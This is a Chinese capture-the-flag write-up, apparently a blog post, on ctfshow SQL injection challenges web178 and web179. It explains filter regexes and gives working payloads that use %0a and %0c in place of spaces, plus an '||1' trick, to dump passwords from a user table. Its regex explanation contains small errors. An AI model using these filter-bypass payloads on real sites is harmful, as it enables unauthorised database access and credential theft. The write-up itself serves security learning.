 ## web178 过滤了/**/

这里和上面一题只是过滤了 /**/所以可以使用上面其他方式进行

```csharp
1'%0aUnion%0aSelect%0a1,2,group_concat(password)from%0actfshow_user%0awhere%0ausername='flag'%23
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4603e387f57aa82a01c0ce744888c34d.png" alt="" style="max-height:242px; box-sizing:content-box;" />


这里过滤也只是多加了内容



<img src="https://i-blog.csdnimg.cn/blog_migrate/920261709778bcbd08dc99c4fc9f039d.png" alt="" style="max-height:392px; box-sizing:content-box;" />


解释一下这里的正则



<img src="https://i-blog.csdnimg.cn/blog_migrate/9bf73c297428806365b24b93f206fe04.png" alt="" style="max-height:197px; box-sizing:content-box;" />


```cobol
\/ 这里是匹配 \
 
\* 匹配 *
 
然后.*? 就是贪婪匹配 匹配 /*后的任何
 
然后匹配结尾 
 
\* 匹配后面的*
 
\/ 匹配后面的/
 
这样我们就可以匹配到/**/
```

如果我们只想匹配/**/只需要修改正则即可

```cobol
\/\*\*\/
```

## web179 过滤%0a %09等大多数符号

这道题有个非预期吧 直接通过 1'||1%23就可以输出了



<img src="https://i-blog.csdnimg.cn/blog_migrate/bf80fb4bb8702a6b6460c40c78ed4d19.png" alt="" style="max-height:578px; box-sizing:content-box;" />


这题还是过滤了很多符号 然后我们需要通过 %0c来绕过
